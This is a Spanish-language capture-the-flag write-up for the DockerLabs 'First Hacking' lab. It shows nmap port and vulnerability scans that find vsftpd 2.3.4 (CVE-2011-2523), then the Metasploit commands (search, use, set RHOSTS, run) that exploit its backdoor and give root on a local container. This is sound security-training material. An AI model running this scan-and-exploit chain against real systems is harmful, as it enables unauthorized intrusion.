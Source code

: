 Machine name: First haking<br>
plataforma: https://dockerlabs.es/#/<br>
Dificultad: Muy facil<br>
source: https://mega.nz/file/oCd2VC5D#QfiRoFmZrZ-FjTuyRX9bLw7638fjluwp6jNth7JjXTw<br>
Autor: El pinguino de Mario<br>

Herramientas:
- Ping
- NMAP
- Metasploit

Máquina: <br>
![[image]](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Firsthacking%20machine.png) <br>
despliegue:

```sh fold:"Despliegue de la maquina"
sudo bash auto_deploy.sh firsthacking.tar 
```

Despliegue: <br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Despliegue.png) <br>
ping a la IP:
```sh fold:"Ping a la máquina"
ping -c1 172.17.0.2
```
<br>
![Ping](./Dockerlabs - FirstHacking - Ping para ver conectividad.png)
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Ping%20para%20ver%20conectividad.png?raw=true)<br>
TTL: 64 linux

reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Nmpa%20reconocimiento.png?raw=true) <br>

vemos que encontramos el puerto 21
vamos a lanzar un nmap con detalles para el puerto 21
```sh fold:"Reconocimiento con nmap y scrips del puerto 21"
sudo nmap --script "vuln" -p 21 172.17.0.2
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Nmap%20con%20exploit%20al%20puerto%2021.png) <br>
tenemos la versión 2.3.4 y un cve:CVE-2011-2523
vamos a intentar explotarlo con metasploit

lanzamos metaesploit
buscamos por el CVE y al no encontrarlo buscamos por la versión de FTP:

```sh fold:"metaesploit"
search CVE-2011-2523 # No results
search ftp 2.3.4
use 0
set RHOSTS 172.17.0.2
run
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Metasploit%20encontrando%20el%20sploit.png) <br>


metaesploit configuramos el IP destino:<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Metaesploit%20configuracion%20de%20la%20IP%20del%20host.png)


Una vez configurado el metasploit lanzamos run para lanzar el ataque
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Correr%20metaesploit.png)
conseguimos acceso con el usuario root:<br>

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Usuario%20Root.png)
